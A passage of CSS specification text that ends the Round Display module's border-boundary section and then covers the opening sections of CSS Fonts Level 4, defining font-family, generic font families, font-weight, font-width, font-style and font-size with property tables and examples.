When a containing block is placed on one end of the display and the containing block has 'shape-inside: display', the descendant blocks of the containing block are basically put on the overlapping region between the containing block and the display area. The overlapping region’s shape is mostly complicated shape, so it’s difficult to define the shape using previous method like basic-shape. The figure 4 describes these circumstances as follows.


Align the content along the display border

> **Issue:** What if content overflows? Clipping or scrolling?

### 6. Drawing borders around the display border {#css-round-display-1:drawing-borders}

#### 6.1. The `border-boundary` property {#css-round-display-1:border-boundary-property}

We add the `border-boundary` property to set a boundary constraint that affects the borders of an element.

| Field | Value |
| --- | --- |
| Name: | **border-boundary** |
| [Value:](#css-values-4:value-defs) | none \| parent \| display |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

When the `border-boundary` property on an element is set to '`parent`', additional borders of the element could be drawn where the element’s area and the borders of its parent are met. When it is set to '`display`', additional borders could be drawn where the element’s area and the borders of screen are met. The default value is '`none`', imposing no boundary constraint on the borders.

> **Example:** The example below shows how the `border-boundary` property works on drawing borders. The result is shown in Figure 5B.
>
> ```html
> <style>
>     #container {
>         border-boundary: display;
>     }
>     #redBox {
>         border: 5px red solid;
>     }
>     #greenBox {
>         border: 5px green solid;
>     }
>     #blueBox {
>         border: 5px blue solid;
>     }
> </style>
> <div id="container">
>     <div id="redBox"></div>
>     <div id="greenBox"></div>
>     <div id="blueBox"></div>
> </div>
> ```
>
> 
>
> (A) Without '`border-boundary`'
>
> 
>
> (B) With '`border-boundary: display`'
>
> Align the content along the display border

> **Note:** If the value of `border-boundary` is parent or display, border lines of the element are actually just a visual effect. It triggers a layout for rendering in a general way, but in the above cases (border-boundary: parent|display), the layout doesn’t occur and it only draws the border lines inward from the containing block’s borders. With this situation, the borders might hide contents around the display edge.

### 7. Use Cases {#css-round-display-1:usecases}

Use cases are described on [these](https://wiki.csswg.org/ideas/round-display).

---

## CSS Fonts Module Level 4 {#css-fonts-4}

- **Shortname:** `css-fonts-4`
- **Editor's Draft:** [https://drafts.csswg.org/css-fonts-4/](https://drafts.csswg.org/css-fonts-4/)
- **Published TR:** [https://www.w3.org/TR/css-fonts-4/](https://www.w3.org/TR/css-fonts-4/)
- **W3C Status:** ED (revising)
- **Last Edited:** 2026-11-12

### 1.  Introduction {#css-fonts-4:introduction}

This specification includes and expands on the basic font features described in the CSS3 Fonts specification ([CSS-FONTS-3]).

#### 1.1.  Value Definitions {#css-fonts-4:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

#### 1.2.  Interaction With Font-Relative Units {#css-fonts-4:font-relative}

The following properties defined in this specification are font-affecting properties:

- All longhands (including reset-only sub-properties) of the `font` shorthand, except `font-variant-emoji` and `line-height`
- All longhands of the `font-synthesis` shorthand

> **Note:** Some properties that can affect the size of text are not font-affecting properties, because they do so via font shaping, which the font-relative lengths explicitly do not take into account.

### 2.  Basic Font Properties {#css-fonts-4:basic-font-props}

The particular font face used to render a character is determined by the font family and other font properties that apply to a given element. This structure allows settings to be varied independently of each other.

#### 2.1.  Font family: the `font-family` property {#css-fonts-4:font-family-prop}

| Field | Value |
| --- | --- |
| Name: | **font-family** |
| [Value:](#css-values-4:value-defs) | [ `<font-family-name>` \| `<generic-font-family>` ]# |
| [Initial:](#css-cascade-6:initial-values) | depends on user agent |
| [Applies to:](#css-cascade-5:applies-to) | all elements and text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | list, each item a string and/or `<generic-font-family>` keywords |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property specifies a prioritized list of font family names or generic family names. A font family defines a set of faces that vary in weight, width or slope. CSS uses the combination of a family name with other font properties to select an individual face. Using this selection mechanism, rather than selecting a face via the style name as is often done in design applications, allows some degree of regularity in textual display when fallback occurs.

Component values are a comma-separated list indicating alternatives. A user agent iterates through the list of family names until it matches an available font that contains a glyph for the character to be rendered. (See [§ 5.3 Cluster matching](#css-fonts-4:cluster-matching).) This allows for differences in available fonts across platforms and for differences in the range of characters supported by individual fonts.

> **Example:** ```
> body {
>   font-family: Helvetica, Verdana, sans-serif;
> }
> ```
>
> If Helvetica is available, it will be used when rendering. If neither Helvetica nor Verdana is present, then the generic font-family `sans-serif` font will be used.

There are three types of font family names, two of which may be used with this property:

****`<font-family-name>`****

: The name of a font family, such as Helvetica or Verdana in the previous example.

  This might be a locally-instaled font, or might be a web font.

**`<generic-font-family>`**

: Each `<generic-font-family>` keyword represents a generic font choice, and behaves as a potential alias for one or more locally-installed fonts belonging to the specified generic font category. A <generic-font-family> can thus be used as a fallback for when an author’s more specific font choices are not available.

  There are three types of generic family:

  1. Generics which apply to all Unicode characters and will *always* match a locally installed font. For example, `monospace`.
  2. Generics which apply to all Unicode characters but may not match to a locally installed font on some systems. For example, `ui-rounded`.
  3. Generics which are writing-system specific, only apply to a subset of Unicode characters, and may not match to a locally installed font on some systems. For example, `generic(fangsong)`.

  Authors are encouraged to append a generic font family as a last alternative for improved robustness, and to use a more specific generic font family, if applicable, to prefer a specific style even if the individual named font family is not available.

  Note that `<generic-font-family>` keywords cannot be quoted (otherwise they are interpreted as a `<font-family-name>`).

  The set of generic family keywords is defined in [§ 2.1.5 Generic font families](#css-fonts-4:generic-font-families).

****`<system-font-family-name>`****

: A locally installed system font, whose use is subject to certain constraints. In particular, it may not be used with the `font-family` property, but can be used with the `font` shorthand.

  The following values refer to system fonts:

  ****caption****

  : The font used for captioned controls (e.g., buttons, drop-downs, etc.).

  ****icon****

  : The font used to label icons.

  ****menu****

  : The font used in menus (e.g., dropdown menus and menu lists).

  ****message-box****

  : The font used in dialog boxes.

  ****small-caption****

  : The font used for labeling small controls.

  ****status-bar****

  : The font used in window status bars.

##### 2.1.1.  Syntax of `<font-family-name>` {#css-fonts-4:font-family-name-syntax}

```css
<font-family-name> = <string> | <custom-ident>+
```

Font family names other than generic families or system font families must either be given quoted as `<string>`s, or unquoted as a sequence of one or more `<custom-ident>`.

> **Note:** This means most punctuation characters and digits at the start of each token must be escaped in unquoted font family names.

> **Example:** To illustrate this, the following declarations are invalid:
>
> ```
> font-family: Red/Black, sans-serif;
> font-family: "Lucida" Grande, sans-serif;
> font-family: Ahem!, sans-serif;
> font-family: test@foo, sans-serif;
> font-family: #POUND, sans-serif;
> font-family: Hawaii 5-0, sans-serif;
> ```

Any identifier which could be misinterpreted as a pre-defined keyword in the font-family value definition, or the CSS-wide keywords, is not allowed.

> **Note:** this means that if you really have a font whose name is the same as one of the `<generic-font-family>` names, or the system font names, or the CSS-wide keywords, it *must* be quoted.

> **Example:** To illustrate this, the following unusual font family names are valid because they are quoted:
>
> ```
> font-family: "sans-serif", sans-serif;
> font-family: "default", sans-serif;
> font-family: "initial", sans-serif;
> font-family: "inherit", sans-serif;
> ```

If a sequence of identifiers is given as a `<font-family-name>`, the computed value is the name converted to a string by joining all the identifiers in the sequence by single spaces.

To avoid mistakes in escaping, it is recommended to quote font family names that contain white space, digits, or punctuation characters other than hyphens:

> **Example:** Quoting font families prevents escaping mistakes.
>
> ```
> body { font-family: "New Century Schoolbook", serif }
>
> <body style="font-family: '21st Century', fantasy">
> ```

Font family *names* that happen to be the same as a `font-family` keyword value (e.g. CSS-wide keywords such as `inherit`, or `<generic-font-family>` keywords such as `serif`) must be quoted to prevent confusion with the keywords of the same names. UAs must not consider these keywords as matching the `<font-family-name>` type.

##### 2.1.2.  Syntax of `<generic-font-family>` {#css-fonts-4:generic-family-name-syntax}

```css
<generic-font-family> = <generic-font-script-specific>| <generic-font-complete> | <generic-font-incomplete>
<generic-font-script-specific> = generic(fangsong) | generic(kai) | generic(khmer-mul) |  generic(nastaliq)
<generic-font-complete> = serif | sans-serif | system-ui | cursive | fantasy | math | monospace
<generic-font-incomplete> = ui-serif | ui-sans-serif | ui-monospace | ui-rounded
```

To make the syntax less succeptible to clashes, more recently defined generic font families are identified using a functional syntax.

> **Example:** ```
> body { font-family: "Adobe Fangsong Std R", generic(fangsong), serif}
> ```
>
> The first choice in this example is a specific, named font, in Fang Song (仿宋) style. The family name is enclosed in quotes as it contains space characters. The second is a recently added script-specific generic font; it is unicode-range specific and so may not match to an actual installed font on some systems; but if it exists it will be an example of the requested style. The third is a universal generic font, which is guaranteed to match on all systems.

##### 2.1.3.  Syntax of `<system-font-family-name>` {#css-fonts-4:system}

```css
<system-font-family-name> = caption | icon | menu | message-box | small-caption | status-bar
```

##### 2.1.4.  Relationship Between Faces and Families {#css-fonts-4:font-families}

A font family name only specifies a name given to a set of font faces; it does not specify an individual face.

> **Example:** For example, given the availability of the fonts below, Futura would match but Futura Medium would not:
>
> 
>
> Family and individual face names

> **Note:** The CSS definition of font attributes used for selection are explicitly not intended to define a font taxonomy. A type designer’s idea of a family can often extend to a set of faces that vary along axes other than just the standard axes of weight (`font-weight`), width (`font-width`), and slant (`font-style`). A family can vary along axes that are unique to that family. The CSS font selection mechanism merely provides a way to determine the “closest” match when substitution is necessary.

> **Note:** The precise way a set of fonts are grouped into font families varies depending upon the platform font management APIs. For example, the Windows GDI API only allows four faces to be grouped into a family, while the DirectWrite API, Core Text API, and other platforms support font families with a variety of weights, widths, and slopes (see [Appendix A: Mapping platform font properties to CSS properties](#css-fonts-4:platform-props-to-css) for more details).

See [§ 5.1 Localized name matching](#css-fonts-4:localized-name-matching) below for information on how font-family names are matched.

##### 2.1.5.  Generic font families {#css-fonts-4:generic-font-families}

A generic font family is a font family which has a standard name (as defined by CSS), but which is an alias for an existing installed font family present on the system. However, a single generic font family may be a composite face combining different typefaces based on such things as the Unicode range of the character, the content language of the containing element, user preferences, system settings, etc. Different generic font families may map to the same used font.

> **Note:** Generic font families are intended to be widely implemented on many platforms, unlike arbitrary `<font-family-name>`s which are usually platform-specific names. They are expected to map to different fonts on different platforms. Authors may specify these generic family names if they desire their text to follow a particular design on many platforms, and are not particular about which specific font is chosen on those platforms.

User agents should provide reasonable default choices for the generic font families, that express the characteristics of each family as well as possible, within the limits allowed by the underlying technology. User agents are encouraged to allow users to select alternative faces for the generic font families.

****serif****

: Serif fonts represent glyphs that have finishing strokes, flared or tapering ends, or have actual serifed endings (including slab serifs). Serif fonts are typically proportionately-spaced. They often display a greater variation between thick and thin strokes than fonts from the `sans-serif` generic font family.

  > **Note:** `serif` and `sans-serif` only apply to a small handful of writing scripts. Their use as generic font families in CSS is historical, and reflects the Latin-centric nature of early Web development. Better and more widely applicable names would have been, for example, "modulated" and "monoline". However, for reasons of Web compatibility, these names cannot be changed.

  CSS uses the term "serif" to apply to a font for any script, although other names might be more familiar for particular scripts, such as Mincho (Japanese), Sung or Song (Chinese), Batang (Korean). For Arabic, the Naskh style would correspond to `serif`.

  `serif` must always map to at least one matched font face.

  > **Note:** No guarantee is placed on the character coverage of that font face. Therefore, the font `serif` is mapped to may not end up being used for all content.

  

  Sample serif fonts

****sans-serif****

: Glyphs in sans-serif fonts, as the term is used in CSS, are generally low contrast (vertical and horizontal stems have the close to the same thickness) and have stroke endings that are plain (without any flaring, cross stroke, or other ornamentation). Sans-serif fonts are typically proportionately-spaced. They often have little variation between thick and thin strokes, compared to fonts from the `serif` family. CSS uses the term "sans-serif" to apply to a font for any script, although other names might be more familiar for particular scripts, such as Gothic (Japanese), Hei (Chinese), or Gulim (Korean).

  `sans-serif` must always map to at least one matched font face.

  > **Note:** No guarantee is placed on the character coverage of that font face. Therefore, the font `sans-serif` is mapped to may not end up being used for all content.

  

  Sample sans-serif fonts

****cursive****

: Glyphs in cursive fonts generally use a script style, and the result looks more like handwritten pen or brush writing than printed letterwork. CSS uses the term "cursive" to apply to a font for any script, although other names such as Chancery, Brush, Swing and Script are also used in font names.

  

  Sample cursive fonts

****fantasy****

: Fantasy fonts are primarily decorative or expressive fonts that contain decorative or expressive representations of characters. These do not include Pi or Picture fonts which do not represent actual characters.

  

  Sample fantasy fonts

****monospace****

: The sole criterion of a monospace font is that all glyphs have the same fixed width. This is often used to render samples of computer code.

  `monospace` must always map to at least one matched font face.

  > **Note:** No guarantee is placed on the character coverage of that font face. Therefore, the font `monospace` is mapped to may not end up being used for all content.

  

  Sample monospace fonts

****system-ui****

: This generic font family lets text render with the default user interface font (which, as with all [§ 2.1.5 Generic font families](#css-fonts-4:generic-font-families), may be a composite font) on the platform on which the UA is running. A cross-platform UA should use different fonts on its different supported platforms. The purpose of `system-ui` is to allow web content to integrate with the look and feel of the native OS. This is useful for hybrid, web or cross-platform applications.

  The precise font(s) used will depend on factors such as platform support, platform language, locale settings, user preferences, Unicode coverage and the content language. UA may optionally choose to use the text rendering engine provided by the platform when using `system-ui` to match the appearance of the default user interface more closely.

  > **Example:** As with other generic font families, the substitution of specific installed fonts for `system-ui` does not affect the computed style.
  >
  > ```
  > <div id="system-text" style="font-family: system-ui"></div>
  > ...
  > window.getComputedStyle(document.getElementById("system-text")).getPropertyValue("font-family");
  > ```
  >
  > The script above should not have any knowledge of how `system-ui` is expanded to include a collection of system user interface fonts. In particular, the above script should yield a result of "system-ui" on every platform.

  > **Note:** `system-ui` is highly dependent on the platform environment as multiple factors may affect the default user interface font, and may have verying level of text rendering support. This may cause the displayed typeface to be undesirable for some end users (e.g. Simplified Chinese users might get a monospaced serif font on older version of Windows; `lang` attribute might not affect displayed font in cases like `lang="uk"` in Russian locale or `lang="ja"` in Chinese locale). Some operating system vendors does not offer means to customise `system-ui`, unlike UAs that generally allow users to customise the generic `sans-serif` or `serif` font family. As the name implies, `system-ui` is intended for use with UI elements in web applications, and may or may not be suitable for large paragraphs of text or articles, depending on operating system vendor implementation.

****math****

: This font family is intended for use with mathematical expressions.

  Such fonts may include additional data (for example, the OpenType MATH table) to help with the hierarchical process of equation layout. In particular, they may contain stylistic and stretching glyph variants useful in setting mathematical equations.

****generic(fangsong)****

: This font family is used for Fang Song (仿宋) typefaces in Chinese. Fang Song is a relaxed, intermediate form between Song (`serif`) and Kai (`generic(kai)`). Typically, the horizontal lines are tilted, the endpoint flourishes are smaller, and there is less variation in stroke width, compared to a Song style. Fang Song is often used for official Chinese Government documents.

  > **Note:** `generic(fangsong)` might not map to any locally installed font, but if it does, that font will be in Fang Song style.

  

  Chinese text displayed with sample fang song fonts

****generic(kai)****

: This font family is used in Simplified & Traditional Chinese. A major typeface, which provides calligraphic styles for Chinese text. It shows notable handwriting features. Kai is commonly used in official documents and textbooks. Most official documents in Taiwan use Kai in full text. Kai can also be combined with other typefaces to be used in text that needs to be differentiated from the rest of the content, for example, headlines, references, quotations, and dialogs.

  > **Note:** `generic(kai)` might not map to any locally installed font, but if it does, that font will be in Kai style.

  

  Chinese text displayed with sample kai fonts

****generic(khmer-mul)****

: This font family is used in the Khmer language (used in Cambodia), for titles and headings, or to emphasise important names or nouns. Compared to the upright (âksâr chôr) style, which is used for regular text, âksâr mul is characterized by heavier, more rounded letter shapes, and may include more ligated forms.

  Despite the visually heavier style, the font weight for regular text in `generic(khmer-mul)` is unchanged (400).

  > **Note:** `generic(khmer-mul)` might not map to any locally installed font, but if it does, that font will be in âksâr mul style.

  

  Cambodian text displayed in: (top) âksâr chôr style, set in Khmer OS Battambang; (center) âksâr mul style, set in Khmer OS Moul v6, with no ligatures; (bottom) âksâr mul style, set in Khmer OS Moul v4, with two ligatures. All fonts by Dan Hong.

****generic(nastaliq)****

: This font family is the standard way of writing Urdu and Kashmiri, and is also often a preferred style for Persian and other language text, especially in literary genres such as poetry. Key features include a sloping baseline for joined letters, and overall complex shaping and positioning for base letters and diacritics alike. There are also distinctive shapes for many glyphs and ligatures. It is important not to fall back to a naskh style for languages such as Urdu and Kashmiri.

  > **Note:** `generic(nastaliq)` might not map to any locally installed font, but if it does, that font will be in Nastaliq style.

  

  Urdu text displayed with a sample nastaliq font (Noto Nastaliq Urdu)

  

  Urdu text displayed with a fallback naskh font (Scheherazade New)

****ui-serif****

: This font family is used for the serif variant of the system’s user interface. The purpose of `ui-serif` is to allow web content to integrate with the look and feel of the native OS.

  > **Note:** `ui-serif` is not expected to map to any font on platforms without an appropriate system font.

  > **Note:** see notes on `system-ui` for potential issues.

  > **Example:** 
  >
  > Sample ui-serif font on macOS Catalina and iOS 13: New York

****ui-sans-serif****

: This font family is used for the sans-serif variant of the system’s user interface. The purpose of `ui-sans-serif` is to allow web content to integrate with the look and feel of the native OS.

  > **Note:** `ui-sans-serif` is not expected to map to any font on platforms without an appropriate system font.

  > **Note:** see notes on `system-ui` for potential issues.

  > **Example:** 
  >
  > Sample ui-sans-serif font on macOS Catalina and iOS 13: San Francisco

****ui-monospace****

: This font family is used for the monospaced variant of the system’s user interface. The purpose of `ui-monospace` is to allow web content to integrate with the look and feel of the native OS.

  > **Note:** `ui-monospace` is not expected to map to any font on platforms without an appropriate system font.

  > **Note:** see notes on `system-ui` for potential issues.

  > **Example:** 
  >
  > Sample ui-monospace font on macOS Catalina and iOS 13: SF Mono

****ui-rounded****

: This font family is used for the rounded variant of the system’s user interface. The purpose of `ui-rounded` is to allow web content to integrate with the look and feel of the native OS.

  > **Note:** `ui-rounded` is not expected to map to any font on platforms without an appropriate system font.

  > **Note:** see notes on `system-ui` for potential issues.

  > **Example:** 
  >
  > Sample ui-rounded font on macOS Catalina and iOS 13: SF Rounded

#### 2.2. Font weight: the `font-weight` property {#css-fonts-4:font-weight-prop}

| Field | Value |
| --- | --- |
| Name: | **font-weight** |
| [Value:](#css-values-4:value-defs) | `<font-weight-absolute>` \| bolder \| lighter |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | all elements and text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | a number, see below |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

The `font-weight` property specifies the weight of glyphs in the font, their degree of blackness, or stroke thickness.

This property accepts values of the following:

```css
<font-weight-absolute> = [ normal | bold | <number [1,1000]> ]
```

Values have the following meanings:

****`<number [1,1000]>`****

: Each number indicates a weight that is at least as dark as its predecessor. Only values greater than or equal to 1, and less than or equal to 1000, are valid, and all other values are invalid. Numeric values typically correspond to the commonly used weight names below.

  - 100 - Thin
  - 200 - Extra Light (Ultra Light)
  - 300 - Light
  - 400 - Normal
  - 500 - Medium
  - 600 - Semi Bold (Demi Bold)
  - 700 - Bold
  - 800 - Extra Bold (Ultra Bold)
  - 900 - Black (Heavy)

  > **Note:** A font might internally provide its own weight name mappings, but those mappings within the font are disregarded in CSS.

****normal****

: Same as `400`.

****bold****

: Same as `700`.

****bolder****

: Specifies a bolder weight than the inherited value. See [§ 2.2.1 Relative Weights](#css-fonts-4:relative-weights).

****lighter****

: Specifies a lighter weight than the inherited value. See [§ 2.2.1 Relative Weights](#css-fonts-4:relative-weights).

Font formats that use a scale other than a nine-step scale should map their scale onto the CSS scale so that 400 roughly corresponds with a face that would be labeled as Regular, Book, Roman and 700 roughly matches a face that would be labeled as Bold. Alternately, weights may be inferred from style names that correspond roughly with the scale above. The scale is relative, so a face with a larger weight value must never appear lighter. If style names are used to infer weights, care should be taken to handle variations in style names across locales.

##### 2.2.1.  Relative Weights {#css-fonts-4:relative-weights}

Specified values of `bolder` and `lighter` indicate weights relative to the weight of the parent element. The computed weight is calculated based on the inherited `font-weight` value using the chart below.

| Inherited value (*w*) | bolder | lighter |
| --- | --- | --- |
| *w* < 100 | 400 | No change |
| 100 ≤ *w* < 350 | 400 | 100 |
| 350 ≤ *w* < 550 | 700 | 100 |
| 550 ≤ *w* < 750 | 900 | 400 |
| 750 ≤ *w* < 900 | 900 | 700 |
| 900 ≤ *w* | No change | 700 |

> **Note:** The table above is equivalent to selecting the next relative bolder or lighter face, given a font family containing normal and bold faces along with a thin and a heavy face. Authors who desire finer control over the exact weight values used for a given element can use numerical values instead of relative weights.

##### 2.2.2.  Missing weights {#css-fonts-4:missing-weights}

Quite often there are only a few weights available for a particular font family. When a weight is specified for which no face exists, a face with a nearby weight is used. In general, bold weights map to faces with heavier weights and light weights map to faces with lighter weights. (See the [§ 5 Font Matching Algorithm](#css-fonts-4:font-matching-algorithm) for a precise definition.)

> **Example:** The examples here illustrate which face is used for different weights. Grey indicates that a face for the desired weight does not exist, so a face with a nearby weight is used.
>
> 
>
> Weight mappings for a font family with 400, 700 and 900 weight faces
>
> 
>
> Weight mappings for a font family with 300 and 600 weight faces

Most user agents model a font as having a particular weight which often corresponds to one of the numbers in the nine-step scale described [above](#css-fonts-4:font-weight-numeric-values). While this is true of most fonts, some fonts might be configurable so as to support a range of weights. In this situation, the user agent uses a face with a weight as close as possible to the weight requested (see [§ 5 Font Matching Algorithm](#css-fonts-4:font-matching-algorithm) for the precise algorithm). In particular, a user agent using a font which supports a range of weights should behave the same as if a font is present at each individual weight in the range. For TrueType / OpenType fonts that use variations, the `wght` variation is used to implement varying weights. Fractional weights are valid.

Although the practice is not well-loved by typographers, bold faces are often synthesized by user agents for families that lack actual bold faces. For the purposes of font matching, these faces must be treated as if they exist within the family. Authors can explicitly avoid this behavior by using the `font-synthesis` property.

#### 2.3.  Font width: the `font-width` property {#css-fonts-4:font-width-prop}

| Field | Value |
| --- | --- |
| Name: | **font-width** |
| [Value:](#css-values-4:value-defs) | normal \| `<percentage [0,∞]>` \| ultra-condensed \| extra-condensed \| condensed \| semi-condensed \| semi-expanded \| expanded \| extra-expanded \| ultra-expanded |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | all elements and text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | Not resolved |
| [Computed value:](#css-cascade-6:computed) | a percentage, see below |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

The `font-width` property selects a normal, condensed, or expanded face from a font family. Values are specified either as percentages or as keywords which map to a percentage as defined in the following table:

| Absolute keyword value | Numeric value |
| --- | --- |
| **ultra-condensed** | 50% |
| **extra-condensed** | 62.5% |
| **condensed** | 75% |
| **semi-condensed** | 87.5% |
| **normal** | 100% |
| **semi-expanded** | 112.5% |
| **expanded** | 125% |
| **extra-expanded** | 150% |
| **ultra-expanded** | 200% |

**`<percentage [0,∞]>`** values represent the fractional width of the glyphs, with 100% representing “normal” glyph widths (as defined by the font designer). Values less than 0% are invalid.

When a face does not exist for a given width, values less than 100% map to a narrower face if one exists, otherwise a wider face. Conversely, values greater than or equal to 100% map to a wider face if one exists, otherwise a narrower face. Some fonts might support a range of width values; if the requested width value is not available in the font, the closest supported value is used, using the same mapping rules (see the [§ 5 Font Matching Algorithm](#css-fonts-4:font-matching-algorithm) for the precise algorithm). For TrueType / OpenType fonts that support variations, the `wdth` variation is used to implement varying widths.

> **Example:** The figure below shows how nine font-width property settings affect font matching for a font family containing a variety of discrete widths. Grey indicates a width for which no face exists and a different width is substituted:
>
> 
>
> Width mappings for a font family with condensed, normal and expanded width faces

`getComputedStyle()` always serializes its value as a `<percentage>`, regardless of how the value was specified by the author, or whether or not a keyword happens to map to the value.

##### 2.3.1.  Font width: the `font-stretch` legacy name alias {#css-fonts-4:font-stretch-prop}

For historical reasons, a **font-stretch** property exists which is a legacy name alias and functions in the identical way to the `font-width`.

> **Example:** For example, here the legacy `font-stretch` is used on level one headings.
>
> ```
> h1 {font-stretch: condensed; }
> ```
>
> The specified value of the `font-width` on those headings becomes set to `condensed`'.

> **Example:** For example, here the `font-width` is used on level one headings.
>
> ```
> h1 {font-width: condensed; }
> ```
>
> The specified value of the `font-stretch` on those headings becomes set to `condensed`.

User agents must not synthesize condensed or expanded faces for font families which lack such faces and which do not have a width variation axis. In particular, user agents must not geometrically stretch such faces.

#### 2.4.  Font style: the `font-style` property {#css-fonts-4:font-style-prop}

| Field | Value |
| --- | --- |
| Name: | **font-style** |
| [Value:](#css-values-4:value-defs) | normal \| italic \| left \| right \| oblique `<angle [-90deg,90deg]>`? |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | all elements and text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | the keyword specified, plus angle in degrees if specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type; `normal` animates as `oblique 0deg` |

The `font-style` property allows italic or oblique faces to be selected. Italic forms are generally cursive in nature while oblique faces are typically sloped versions of the regular face.

> **Example:** Compare the artificially sloped renderings of Palatino "a" and Baskerville "N" in grey with the actual italic versions:
>
> 
>
> Artificial sloping versus real italics

Values have the following meanings:

****normal****

: Matches against a face that is classified as a normal face, one that is neither italic or obliqued. This represents an oblique value of "0".

****italic****

: Matches against a font that is labeled as an italic face, or an oblique face if one does not exist. The angle and direction of slant is unspecified.

****left****

: Matches against a font that is labeled as an italic face, with a positive (clockwise) slant; or an oblique face with positive slant, if one does not exist.

****right****

: Matches against a font that is labeled as an italic face, with a negative (counter-clockwise) slant; or an oblique face with negative slant, if one does not exist.

****oblique `<angle [-90deg,90deg]>`?****

: Controls matching against an oblique face. Positive angles represent a clockwise slant; negative angles represent a counter-clockwise slant. The lack of an `<angle>` represents `14deg`. (Note that a font might internally provide its own mapping for "oblique", but the mapping within the font is disregarded.) Fractional and negative values are accepted; however, values less than -90deg or values greater than 90deg are invalid. If no oblique faces exist, and `font-synthesis-style` has the value auto, a synthetic oblique face will be generated.


An italic face with negative slant. The font is Mf Autumn Breeze, by Misti Hammers.

A font family might contain no italic or oblique faces, only an italic face and no oblique, only an oblique face and no italic, both an oblique and an italic, multiple oblique faces at various angles, or various combinations thereof. The font matching routine will select a font to use which is of the correct sign as the requested angle, and (if there are multiple such faces) closest to the requested angle. In general, for a requested angle greater or equal to 11deg, larger angles are preferred; otherwise, smaller angles are preferred. (See [§ 5 Font Matching Algorithm](#css-fonts-4:font-matching-algorithm).) For TrueType / OpenType fonts that use variations, the `slnt` variation is used to implement oblique values, and the `ital` variation with a value of 1 is used to implement the italic values.

> **Note:** the OpenType `slnt` axis is defined with a positive angle meaning a counter-clockwise slant, the opposite direction to CSS. The CSS implementation will take this into account when using variations to produce oblique faces.

> **Issue:** What direction should positive and negative obliques skew in vertical writing mode? How do we achieve skews in the opposite dimension (needed for vertical writing)?

If no italic or oblique face is available, oblique faces may be synthesized by rendering non-obliqued faces with an artificial obliquing operation. The use of these artificially obliqued faces can be disabled using the `font-synthesis` property.

> **Note:** While oblique faces can be simulated by artificially sloping the glyphs of the regular face, this is not equivalent to a true oblique, in which optical stroke thicknesses are properly preserved despite the slant. It is always better to use an actual oblique font rather than rely on a synthetic version.

For the purposes of font matching, User agents may treat `italic` as a synonym for `oblique`. For user agents that treat these values distinctly, synthesis must not be performed for `italic`.

> **Note:** Authors should also be aware that synthesized approaches might not be suitable for scripts like Cyrillic, where italic forms are very different in shape. It is always better to use an actual italic font rather than rely on a synthetic version.

> **Note:** Many scripts lack the tradition of mixing a cursive form within text rendered with a normal face. Chinese, Japanese and Korean fonts almost always lack italic or oblique faces. Fonts that support a mixture of scripts will sometimes omit specific scripts, such as Arabic, from the set of glyphs supported in the italic face. User agents should be careful about making character map assumptions across faces when implementing synthesis across fonts, as italic faces in a family can have different character maps than Roman faces.

#### 2.5.  Font size: the `font-size` property {#css-fonts-4:font-size-prop}

| Field | Value |
| --- | --- |
| Name: | **font-size** |
| [Value:](#css-values-4:value-defs) | `<absolute-size>` \| `<relative-size>` \| `<length-percentage [0,∞]>` \| `math` |
| [Initial:](#css-cascade-6:initial-values) | medium |
| [Applies to:](#css-cascade-5:applies-to) | all elements and text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | refer to parent element’s font size |
| [Computed value:](#css-cascade-6:computed) | an absolute length |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

This property indicates the desired height of glyphs from the font. For scalable fonts, the font-size is a scale factor applied to the EM unit of the font. For non-scalable fonts, the font-size is converted into absolute units and matched against the declared font-size of the font, using the same absolute coordinate space for both of the matched values.

> **Note:** There is no requirement on how closely a glyph should fit its EM box. Individual fonts can have a different apparent visual size when rendered at the same `font-size`. Additionally, glyphs might render arbitrarily far outside their EM box; and if they overflow their containing block can induce ink overflow.

Values have the following meanings:

****`<absolute-size>`****

: An `<absolute-size>` keyword refers to an entry in a table of font sizes computed and kept by the user agent. See [§ 2.5.1 Absolute Size Keyword Mapping Table](#css-fonts-4:absolute-size-mapping).

  Possible values are:

  ```css
  [ xx-small | x-small | small | medium | large | x-large | xx-large | xxx-large ]
  ```

****`<relative-size>`****

: A `<relative-size>` keyword is interpreted relative to the computed `font-size` of the parent element and possibly the table of font sizes. Possible values are:

  ```css
  [ larger | smaller ]
  ```

